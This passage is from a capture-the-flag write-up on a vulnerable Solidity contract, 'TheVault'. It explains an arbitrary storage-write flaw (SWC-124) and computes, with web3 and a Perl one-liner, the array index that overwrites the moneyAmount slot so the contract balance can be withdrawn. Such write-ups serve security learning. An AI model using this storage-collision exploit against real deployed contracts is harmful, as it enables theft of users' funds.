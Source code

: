 ```solidity
        msg.sender.transfer(address(this).balance);
    }

    function getMoneyFromAccount(uint256 accountNumber) public view returns (uint256) {
        return savingAccounts[accountNumber];
    }
}
```

The last contract nammed TheVault is composed by a variable and an array with a *constructor* and three functions *putMoneyOnAccount*, *withdrawMoneyFromAccount* and *getMoneyFromAccount*.

Let's analyze the functions, the constructor initialized the value of the variable *moneyAmount* at 0. The last one, *getMoneyFromAccount* just return the value of an index of the array savingAccounts.

The *withdrawMoneyFromAccount* function is the one we need to trigger to validate the chall because of the line `msg.sender.transfer(address(this).balance);`. To call this function we need to bypass the line `require(moneyAmount >= 2000000 && savingAccounts[accountNumber] >= 1);`.

The *putMoneyOnAccount* function is the vulnerable one because of the line `savingAccounts[accountNumber] = moneyQuantity;` we will be able to overwrite the value of *moneyAmount*.

This is a well-known SWC vulnerability often saw on CTF as [Capture the Ether](https://capturetheether.com/) or [root-me.org](https://www.root-me.org/fr/Challenges/Programmation/).

Let'have a look of the documentation in order to understand the vulnerability :

- [Write to Arbitrary Storage Location](https://swcregistry.io/docs/SWC-124)
- [Solidity storage documentation](https://solidity.readthedocs.io/en/develop/miscellaneous.html)

In the solidity language, the initials variables are store in the storage location. Here the *moneyAmount* variable is in storage 0 and the *savingAccounts* array in the storage 1. As the array length is not fix, the value of the array will be store at the storage *keccak256(p)* where p is equal to 1 in our case.

Let's exploit the vulneraility !

### Get the money

We first calcul the value of *keccak256(p)*, because of the position of the array in the local storage we will take keccak256(uint256(0x1))

```javascript
web3.sha3("0x0000000000000000000000000000000000000000000000000000000000000001", { encoding: 'hex' })
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

The local storage is set on 2**256 address so in order to create a storage collision I use the following calcul ("+ 0" is for the index of the storage I want to overwrite)

```Perl
perl -Mbigint -E 'say ((2**256 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 0)->as_hex)'
# 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```
